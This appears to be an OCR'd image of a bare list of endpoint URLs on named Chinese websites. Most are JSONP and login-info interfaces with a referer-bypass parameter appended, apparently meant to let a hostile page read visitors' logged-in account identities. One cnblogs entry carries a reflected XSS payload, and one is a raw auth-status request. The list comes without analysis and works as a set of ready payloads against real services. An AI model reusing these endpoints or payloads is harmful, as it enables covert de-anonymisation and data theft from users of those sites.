 easylearn.baidu.com/edu-web/activity/extracheck?courseId=1&xxoo=chrome-extension://&type=1&&callback=jQuery152023802138955832153_1658335948692&_=1658335949723 

zol
my.zol.com.cn/public_new.php

ipip
ipip.iask.cn/iplookup/search?format=js&_=1658332291360 


zdw.w8.com.cn/p.ht

直播吧
https://bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1657807551741&callback=%3C1

携程的
https://accounts.ctrip.com/ssoproxy/ssoGetUserInfo?xxoo=chrome-extension://&jsonp=%3C%22?&callback=11111

博客园(xss反弹)
https://wz.cnblogs.com/create?t=xxxx&xxoo=chrome-extension://&&u=%22%3E%3Csvg/onload=alert(%221%22)%3E&c=&i=0

虎牙的接口 
https://www.huya.com/udb_web/udbport2.php?m=HuyaLogin&xxoo=chrome-extension://&do=checkLogin

超星的
POST /getauthstatus HTTP/1.1
Host: passport2.chaoxing.com

enc=80a46477866993d3599b7f39506f8ece&uuid=ddbc623b7fc14a07b4b6c8cae881f51c

苏宁家的
https://myjr.suning.com/sfp/mutualTrust/getLoginInfo.htm?xxoo=chrome-extension://&&callback=jQuery172011468305000873791_1608255922695&_=1657807551743

爱问的
https://m.iask.sina.com.cn/cas/logins?domain=iask.sina.com.cn&xxoo=chrome-extension://&businessSys=iask&channel=null&popup=show&clsId=undefined&fid=1


京东的
https://api.m.jd.com/client.action?functionId=getBabelProductPaged&xxoo=chrome-extension://& ... 6e%6e%65%72%41%6e%63%68%6f%72%22%3a%22%22%7d&screen=2799*1208&client=wh5&clientVersion=1.0.0&sid=&uuid=&area=&_=1585823068850&callback=jsonp1

城通网盘
https://home.ctfile.com/iajax.php?item=profile&xxoo=chrome-extension://&action=index&jsonp=jQuery2398423949823

cnzz
s95.cnzz.com/z_stat.php?id=1261171181&web_id=1261171181 

zhibo8
bbs.zhibo8.cc/user/userinfo?device=pc&xxoo=chrome-extension://&_=1658335949723&callback=jQuery152023802138955832153_1658335948691

youku
download.youku.com/download
